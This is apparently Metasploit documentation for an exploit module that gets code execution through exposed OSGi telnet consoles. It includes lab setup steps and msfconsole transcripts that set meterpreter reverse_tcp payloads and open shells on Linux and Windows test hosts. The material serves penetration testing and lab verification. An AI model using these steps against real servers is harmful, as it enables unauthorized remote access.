 ## Vulnerable Application

### Description

This module takes advantage of OSGi consoles exposed by some Java-based middleware servers.

The OSGi console is a telnet-based server that can be used for remote debugging and dynamic loading/removal of Java bundles running on an OSGi based server.

### Test setup

#### Linux environment

Follow these steps to run the vulnerable application on a Linux host:

1. Create a test environment directory
`mkdir testenv && cd testenv`
2. Download the setup script
`wget https://gist.githubusercontent.com/QKaiser/66c8a618eef2a7801c0bbb1aa43d724a/raw/e098f6ea31717311bd6ce5b3be94744dddfc2388/setup.sh`
3. Set appropriate permission
`chmod +x setup.sh`
4. Execute setup script
`./setup.sh`
5. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
6. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
7. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

#### Windows environment

Follow these steps to run the vulnerable application on a Windows host:

1. Download the Eclipse Equinox SDK from https://www.eclipse.org/downloads/download.php?file=/equinox/drops/R-Oxygen.2-201711300510/equinox-SDK-Oxygen.2.zip&r=1
2. Create a test directory. Let's name it `osgi_test` for clarity.
3. Create a directory named `configuration` in `osgi_test`
4. Create a file named `config.ini` in your `configuration` directory. The file should contain the following lines only:
```
osgi.bundles=org.eclipse.equinox.console@start, org.apache.felix.gogo.command@start, org.apache.felix.gogo.shell@start, org.apache.felix.gogo.runtime@start
eclipse.ignoreApp=true
osgi.noShutdown=true
```
5. Create an empty `plugins` directory in `osgi_test` directory
6. Extract `plugins/org.apache.felix.gogo.command_(version).jar` from the SDK as `org.apache.felix.gogo.command.jar` in `osgi_test` directory. 
7. Extract `plugins/org.apache.felix.gogo.runtime_(version).jar` from the SDK as `org.apache.felix.gogo.runtime.jar` in `osgi_test` directory.
6. Extract `plugins/org.apache.felix.gogo.shell_(version).jar` from the SDK as `org.apache.felix.gogo.shell.jar` in `osgi_test` directory.
8. Extract `plugins/org.eclipse.equinox.console_(version).jar` from the SDK as `org.eclipse.equinox.console.jar` in `osgi_test` directory.
9. Extract `plugins/org.eclipse.osgi_(version).jar` from the SDK as `org.eclipse.osgi.jar` in `osgi_test` directory.
10. At the end of those steps, your `osgi_test` directory should contain the following items:
```
.
├── configuration
│   └── config.ini
├── org.apache.felix.gogo.command.jar
├── org.apache.felix.gogo.runtime.jar
├── org.apache.felix.gogo.shell.jar
├── org.eclipse.equinox.console.jar
├── org.eclipse.osgi.jar
└── plugins
```
11. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
12. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
13. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

If you don't want to go through all those steps manually I recommend you to run the setup script on a Linux host, mount the directory on a Windows VM and start from step 11.

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/osgi_console_exec`
  4. Do: `set RHOST 127.0.0.1`
  5. Do: `set RPORT 5555` or `set RPORT 2019`
  6. Do: `check`. The target should appear vulnerable.
  6. Do: `set payload` with the payload of your choosing.
  5. Do: `run`
  5. You should get a shell.

## Options

  **TIME_WAIT** - Time to wait for payload to be executed. The default value is set to 20 seconds.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Ubuntu Linux target:

```
msf > use exploit/multi/misc/osgi_console_exec
msf exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.4
msf exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf exploit(multi/misc/osgi_console_exec) > set TARGET 0
msf exploit(multi/misc/osgi_console_exec) > set payload linux/x86/meterpreter/reverse_tcp
msf exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.4:5555 - Accessing the OSGi console ...
[*] 172.20.10.4:5555 - Exploiting...
[*] Sending stage (857352 bytes) to 172.20.10.4
[*] 172.20.10.4:5555 - 172.20.10.4:5555 - Waiting for session...
[*] Meterpreter session 2 opened (172.20.10.2:4444 -> 172.20.10.4:39314) at 2018-02-14 19:17:39 +0100
[*] 172.20.10.4:5555 - Command Stager progress - 100.00% done (763/763 bytes)

msf exploit(multi/misc/osgi_console_exec) > sessions -i 2
[*] Starting interaction with 2...
meterpreter > sysinfo
Computer     : 172.20.10.4
OS           : Ubuntu 16.04 (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

```

### Reverse shell on Windows host

Exploit running against a Windows 7 target:

```
msf > use exploit/multi/misc/osgi_console_exec
msf exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.3
msf exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf exploit(multi/misc/osgi_console_exec) > set TARGET 1
msf exploit(multi/misc/osgi_console_exec) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 2.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.3:5555 - Accessing the OSGi console ...
[*] 172.20.10.3:5555 - Exploiting...
[*] 172.20.10.3:5555 - 172.20.10.3:5555 - Waiting for session...
[*] Sending stage (179779 bytes) to 172.20.10.3
[*] Meterpreter session 1 opened (172.20.10.2:4444 -> 172.20.10.3:49365) at 2018-02-14 19:14:15 +0100
msf exploit(multi/misc/osgi_console_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : PENTEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
